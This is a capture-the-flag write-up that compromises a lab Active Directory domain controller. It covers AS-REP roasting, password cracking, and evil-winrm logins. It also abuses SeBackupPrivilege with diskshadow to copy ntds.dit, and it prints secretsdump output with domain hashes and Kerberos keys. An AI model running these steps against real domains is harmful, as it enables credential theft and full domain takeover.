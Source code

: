 FUSION CORP
===========



Start with nmap scan 

```bash
# Nmap 7.91 scan initiated Mon Jun 21 14:41:27 2021 as: nmap --min-rate 300 -sC -sV -A -oN initial 10.10.190.242
Nmap scan report for 10.10.190.242 (10.10.190.242)
Host is up (0.15s latency).
Not shown: 987 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: eBusiness Bootstrap Template
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-06-21 09:13:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: FUSION
|   NetBIOS_Domain_Name: FUSION
|   NetBIOS_Computer_Name: FUSION-DC
|   DNS_Domain_Name: fusion.corp
|   DNS_Computer_Name: Fusion-DC.fusion.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2021-06-21T09:13:10+00:00
| ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
| Not valid before: 2021-03-02T19:26:49
|_Not valid after:  2021-09-01T19:26:49
|_ssl-date: 2021-06-21T09:13:50+00:00; +1m21s from scanner time.
Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m20s, deviation: 0s, median: 1m20s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-06-21T09:13:14
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 21 14:42:33 2021 -- 1 IP address (1 host up) scanned in 65.80 seconds

```

## User 1

Web server is running there is also kerberos server, Run gobuster/dirbuster on website and look for directories.

![gobuster](/Images/fusioncorp/gobuster.png)

and we found employee details in **backup** directory.

![employee](/Images/fusioncorp/employee.png)

we have username of some of the users, save those users name in `users.txt` then we use one of the impacket tool.

`GetNPUsers.py 'fusion.corp/' -usersfile users.txt -no-pass -dc-ip fusion.corp`

![kerberos-hash](/Images/fusioncorp/kerberos-hash.png)

found one valid user with kerberos hash, now crack the password with **John** or **Hashcat**.

![John the Ripper](/Images/fusioncorp/john.png)

cracked password is `!!abbylvzsvs2k6!` for user `lparker`

Now login using **evil-winrm** username and password 

`evil-winrm -i fusion.corp -u lparker -p '!!abbylvzsvs2k6!'`

![User1-Flag](/Images/fusioncorp/user1.png) 

## User 2 

Dumping LDAP with creds we got

`ldapdomaindump fusion.corp -u 'fusion.corp\lparker' -p '!!abbylvzsvs2k6!' --no-json --no-grep`

![LDAP-Dump](/Images/fusioncorp/ldapdump.png)

when we look at the dumped file we find another user password

![Dump-User](/Images/fusioncorp/domain-users.png)

login with those creds and get 2nd flag

`evil-winrm -i fusion.corp -u jmurphy -p 'u8WC3!kLsgw=#bRY'`

![User2-Flag](/Images/fusioncorp/user2.png)


## User 3 (Administrator) 

**jmurphy** have backup privilege we can abuse this.

need to download these dll on you PC 1st [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll), [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll)

1. Create folder

```bash
*Evil-WinRM* PS C:\> mkdir c:\tmp
```

2. create file name `diskshadow.txt` and add this

```
set context persistent nowriters #
set metadata c:\tmp\metadata.cab #
add volume c: alias myAlias #
create #
expose %myAlias% x: #
exec "cmd.exe" /c copy x:\windows\ntds\ntds.dit c:\tmp\ntds.dit #
delete shadows volume %myAlias% #
reset #

```

3. upload the downloaded dll files and diskshadow.txt file

```bash
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload diskshadow.txt
```

4. run the **diskshadow.txt** file, you can download text file [here.](https://github.com/codebycamk/DiskShadowCopyNtds)

![Diskshadow](/Images/fusioncorp/diskshadow.png)

5. Import the uploaded dll modules

```bash
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> Set-SeBackupPrivilege
```

6. Copy the **SYSTEM** file and **NTDS.dit** to `c:\tmp` and download it to your PC

![download](/Images/fusioncorp/download.png)

7. Using Impacket-Secretdump.py get all hasher and login as `Administrator` and get final flag.

```bash
└─$ secretsdump.py -system system -ntds ntds.dit LOCAL
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 76cf6bbf02e743fac12666e5a41342a7
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9653b02d945329c7270525c4c2a69c67:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
FUSION-DC$:1000:aad3b435b51404eeaad3b435b51404ee:06dad9b238c644fdc20c7633b82a72c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:feabe44b40ad2341cdef1fd95297ef38:::
fusion.corp\lparker:1103:aad3b435b51404eeaad3b435b51404ee:5a2ed7b4bb2cd206cc884319b97b6ce8:::
fusion.corp\jmurphy:1104:aad3b435b51404eeaad3b435b51404ee:69c62e471cf61441bb80c5af410a17a3:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:4db79e601e451bea7bb01d0a8a1b5d2950992b3d2e3e750ab1f3c93f2110a2e1
Administrator:aes128-cts-hmac-sha1-96:c0006e6cbd625c775cb9971c711d6ea8
Administrator:des-cbc-md5:d64f8c131997a42a
FUSION-DC$:aes256-cts-hmac-sha1-96:3512e0b58927d24c67b6d64f3d1b71e392b7d3465ae8e9a9bc21158e53a75088
FUSION-DC$:aes128-cts-hmac-sha1-96:70a93c812e563eb869ba00bcd892f76a
FUSION-DC$:des-cbc-md5:04b9ef07d9e0a279
krbtgt:aes256-cts-hmac-sha1-96:82e655601984d4d9d3fee50c9809c3a953a584a5949c6e82e5626340df2371ad
krbtgt:aes128-cts-hmac-sha1-96:63bf9a2734e81f83ed6ccb1a8982882c
krbtgt:des-cbc-md5:167a91b383cb104a
fusion.corp\lparker:aes256-cts-hmac-sha1-96:4c3daa8ed0c9f262289be9af7e35aeefe0f1e63458685c0130ef551b9a45e19a
fusion.corp\lparker:aes128-cts-hmac-sha1-96:4e918d7516a7fb9d17824f21a662a9dd
fusion.corp\lparker:des-cbc-md5:7c154cb3bf46d904
fusion.corp\jmurphy:aes256-cts-hmac-sha1-96:7f08daa9702156b2ad2438c272f73457f1dadfcb3837ab6a92d90b409d6f3150
fusion.corp\jmurphy:aes128-cts-hmac-sha1-96:c757288dab94bf7d0d26e88b7a16b3f0
fusion.corp\jmurphy:des-cbc-md5:5e64c22554988937
[*] Cleaning up... 

```

![User3-Flag](/Images/fusioncorp/user3.png)
